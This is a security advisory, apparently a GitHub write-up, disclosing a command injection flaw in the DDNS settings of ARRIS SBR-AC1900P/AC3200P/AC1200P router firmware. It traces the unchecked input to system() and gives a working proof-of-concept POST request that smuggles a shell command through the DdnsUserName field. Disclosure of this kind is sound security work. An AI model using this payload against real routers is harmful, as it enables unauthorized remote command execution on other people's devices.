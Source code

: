 # ARRIS Vulnerability

Vendor:ARRIS

Product:SBR-AC1900P、SBR-AC3200P、SBR-AC1200P

Version:1.0.7-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000REKViAAP&c=SURFboard%20Routers#panel4)

1.0.7-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000OlajgAAB&c=SURFboard%20Routers#panel4)

1.0.5-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000RpnMpAAJ&c=SURFboard%20Routers#panel4)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in ARRIS router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `setup.cgi` binary:

In the router's `ddns` function, `DdnsUserName、DdnsHostName、DdnsPassword` is directly passed by the attacker, so we can control the `DdnsUserName、DdnsHostName、DdnsPassword` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `scnvram_set` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

In `rc` binary:

In `sub_16DD8` function, the initial input will be extracted.

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

Eventually, in `sub_16920、sub_16B98` function, the initial input will cause command injection.

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

In `libcomm_sc.so` binary:

Function `system` is called internally in function `_sc_exec`.

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

> Complete vulnerability verification on SBR-AC1900P product



## PoC

We set `DdnsUserName` as **%27%3Bcd+%2Fbin%3B%2Fusr%2Fsbin%2Fls%3E%2Ftmp%2Fwww%2Fhack2.txt%3B%27** , The meaning of this command is **';cd /bin;/usr/sbin/ls>/tmp/www/hack2.txt;'**，and the router will excute it,such as:

```http
POST /setup.cgi?id=415f51ba HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 179
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/RgDdns.htm
Cookie: RebootType=1
Upgrade-Insecure-Requests: 1

DdnsService=1&DdnsUserName=%27%3Bcd+%2Fbin%3B%2Fusr%2Fsbin%2Fls%3E%2Ftmp%2Fwww%2Fhack2.txt%3B%27&DdnsPassword=abc123&DdnsHostName=pjqwudi&this_file=RgDdns.htm&next_file=RgDdns.htm
```

<div  align="center"><img src="./images/6.png" style="zoom:80%;" /></div>



## Result

<div  align="center"><img src="./images/7.png" style="zoom:80%;" /></div>
